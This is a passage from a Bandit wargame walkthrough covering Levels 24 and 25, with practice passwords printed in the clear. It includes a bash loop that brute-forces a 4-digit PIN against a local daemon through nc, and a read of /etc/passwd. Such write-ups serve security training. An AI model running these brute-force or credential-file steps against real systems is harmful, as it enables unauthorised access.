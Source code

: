 ```
bandit23@bandit:/tmp/germ$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## Level 24
To retrieve the next password, we have to submit the password for `bandit24`, plus a 4-digit code, to the `daemon` listening on `port 30002`. Let's first try to send it something to see what it returns.
```
bandit24@bandit:~$ echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000" | nc -v localhost 30002
localhost [127.0.0.1] 30002 (?) open
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Timeout. Exiting.
```
Knowing this, we can create a simple script to generate a file containing a list of possible combinations to pass to `nc`.
```
bandit24@bandit:~$ mkdir -p /tmp/germ
bandit24@bandit:~$ cd /tmp/germ
bandit24@bandit:/tmp/germ$ vi brute.sh 
bandit24@bandit:/tmp/germ$ cat brute.sh 
#/bin/bash
for i in {0000..9999}
do
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
bandit24@bandit:/tmp/germ$ bash brute.sh > combinations.lst
bandit24@bandit:/tmp/germ$ nc localhost 30002 < combinations.lst 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

## Level 25
For the next password, we are provided with a private `ssh` key for the next user in our home directory, however attempts to try to login result in being kicked out.
```
bandit25@bandit:~$ ls -l                           
total 4                                                                                             
-r-------- 1 bandit25 bandit25 1679 May  7  2020 bandit26.sshkey 
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
Could not create directory '/home/bandit25/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:98UL0ZWr85496EtCRkKlo20X3OPnyPSB5tB5RPbhczc.
Are you sure you want to continue connecting (yes/no)? yes
...
Connection to localhost closed.
```
Based on the level hint, we know that `bandit26` does not use `/bin/bash` as their `shell`. We can peak at `/etc/passwd` to see what their `shell` is.
```
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
```